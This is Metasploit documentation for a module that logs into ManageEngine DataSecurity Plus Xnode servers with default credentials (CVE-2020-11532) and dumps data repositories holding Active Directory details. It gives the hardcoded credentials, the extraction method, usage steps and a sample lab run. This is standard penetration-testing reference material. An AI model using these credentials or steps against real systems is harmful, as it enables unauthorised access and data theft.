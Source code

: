 ## Vulnerable Application
The module exploits default admin credentials for the DataEngine Xnode server in DataSecurity Plus versions prior to 6.0.1 (6011)
in order to dump the contents of Xnode data repositories (tables), which may contain (a limited amount of) Active Directory information
including domain names, host names, usernames and SIDs.
The module can also be used against patched DataSecurity Plus versions if the correct credentials are provided.

The module's `check` method attempts to authenticate to the remote Xnode server. The default credentials are `atom`:`chegan`.
If the credentials are valid, the module will perform a few requests to the Xnode server to obtain information like the Xnode version.
This is mostly done as a sanity check to ensure the Xnode server is working as expected.

Next, the module will iterate over a list of known Xnode data repositories and perform several requests for each in order to:
- Check if the data repository is configured on the target
- Obtain the total number of records in the data repository
- Obtain both the lowest and the highest value for the ID field (column). These values will be used
to determine the range of possible records to be queried.

If a given data repository exists, the module uses the above information to dump the data repository contents.
The maximum number of records returned for a search query is 10. To overcome this, the module performs series of requests
using the `dr:/dr_search` action, while specifying the ID values for each record.
For example, if the lowest observed ID value is 15 and the highest is 41, the module will perform three requests:
1. A request for the records with ID values 15 to 24
2. A request for the records with ID values 25 to 34
3. A request for the records with ID values 35 to 41
Empty records are ignored.

To view the raw Xnode requests and responses, enter `set VERBOSE true` before running the module.

By default, the module dumps only the data repositories (tables) and fields (columns) specified in the configuration file.
The configuration file can be set via the CONFIG_FILE option, but this is not required because
a default config file exists at `data/exploits/manageengine_xnode/CVE-2020-11532/datasecurity_plus_xnode_conf.yaml`.
The configuration file is then also used to add labels to the values sent by Xnode in response to a query.
This means that for every value in the Xnode response, the module will add the corresponding field name to the results
before writing those to a JSON file in ~/.msf4/loot.

It is also possible to use the DUMP_ALL option to obtain all data in all known data repositories without specifying data field names.
However, in the latter case the data won't be labeled.

This module has been successfully tested against DataSecurity Plus 6.0.1 (6010) running on Windows Server 2012 R2.

## Installation Information
Vulnerable versions of DataSecurity Plus are available [here](https://archives.manageengine.com/data-security/).
All versions from 6000 through 6011 are configured with default Xnode credentials.
However, testing against vulnerable versions from the archives will make data enumeration impossible because
the free trials for those versions do not seem to allow DataSecurity Plus to
actually start collecting data that can then be accessed via Xnode.
However, apart from some configuration changes, Xnode functions the same way on patched versions as it does on vulnerable versions,
so it is possible to test the modules against patched versions as long as the correct credentials are provided.
A free 30-day trial of DataSecurity Plus can be downloaded [here](https://www.manageengine.com/data-security/download.html).
To install, just run the .exe and follow the instructions.
In order to configure a patched ManageEngine DataSecurity Plus instance for testing, follow these steps:
- Open the Xnode config file at `<install_dir>\apps\dataengine-xnode\conf\dataengine-xnode.conf`
- Note down the username and password
- Insert the following line:
```
xnode.connector.accept_remote_request = true
```
To launch DataSecurity Plus, run Command Prompt as administrator and run: `<install_dir>\bin\run.bat`

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/manageengine_datasecurity_plus_xnode_enum`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options
### CONFIG_FILE
YAML File specifying the data repositories (tables) and fields (columns) to dump.
### DUMP_ALL
Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.

## Scenarios
### ManageEngine DataSecurity Plus 6.0.1 (6010) on Windows Server 2012
```
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_datasecurity_plus_xnode_enum):

   Name         Current Setting                                                Required  Description
   ----         ---------------                                                --------  -----------
   CONFIG_FILE  /home/wynter/dev/metasploit-framework/data/exploits/manageeng  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ine_xnode/CVE-2020-11532/datasecurity_plus_xnode_conf.yaml
   DUMP_ALL     false                                                          no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     chegan                                                         yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.41                                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29119                                                          yes       The target port (TCP)
   USERNAME     atom                                                           yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > run
[*] Running module against 192.168.1.41

[*] 192.168.1.41:29119 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.41:29119 - Target seems to be Xnode.
[+] 192.168.1.41:29119 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.41:29119 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.41:29119 - Target is running Xnode version: "XNODE_1_0_0".
[*] 192.168.1.41:29119 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\DataSecurity Plus\apps\dataengine-xnode".
[*] 192.168.1.41:29119 - Data repository DSPEmailAuditAttachments is empty.
[*] 192.168.1.41:29119 - Data repository DSPEmailAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointClassificationReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointIncidentReport is empty.
[*] 192.168.1.41:29119 - Data repository DspEndpointPrinterAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DspEndpointWebAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPFileAnalysisAlerts is empty.
[*] 192.168.1.41:29119 - Data repository RAAlertHistory is empty.
[*] 192.168.1.41:29119 - Data repository RAIncidents is empty.
[*] 192.168.1.41:29119 - Data repository RAViolationRecords is empty.
[*] Auxiliary module execution completed
```
